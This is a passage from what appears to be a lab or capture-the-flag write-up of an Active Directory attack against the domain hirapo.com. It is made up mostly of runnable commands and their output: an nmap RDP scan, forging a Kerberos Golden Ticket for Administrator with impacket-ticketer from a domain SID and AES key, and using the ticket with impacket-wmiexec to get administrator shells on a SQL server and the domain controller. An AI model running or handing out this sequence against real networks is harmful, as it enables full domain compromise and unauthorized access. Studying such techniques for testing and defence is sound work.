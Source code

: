 ```bash
nmap dc.hirapo.com -F --script=rdp-ntlm-info
```

## 4. Generating the Golden Ticket

**Command:**

```bash
impacket-ticketer -domain hirapo.com -domain-sid S-1-5-21-3665665769-2465453898-254577537 \
-aesKey e633d31b7cfbab1a394d14e883dd99b7 Administrator
```

**Result:**

```
Ticket saved as Administrator.ccache
```

## 5. Using the Ticket

**Set Environment Variable:**

```bash
export KRB5CCNAME=Administrator.ccache
```

**Command:**

```bash
impacket-wmiexec -k -no-pass -dc-ip dc.hirapo.com sql01.hirapo.com
```

**Post-Login Commands:**

```cmd
whoami
hostname
```

**Expected Output:**

```
hirapo.com\administrator
sql01
```

## 6. Reusing the Ticket (Domain Controller)

**Command:**

```bash
impacket-wmiexec -k -no-pass -dc-ip dc.hirapo.com dc.hirapo.com
```

**Expected Output:**

```
C:\> whoami
hirapo.com\administrator
```
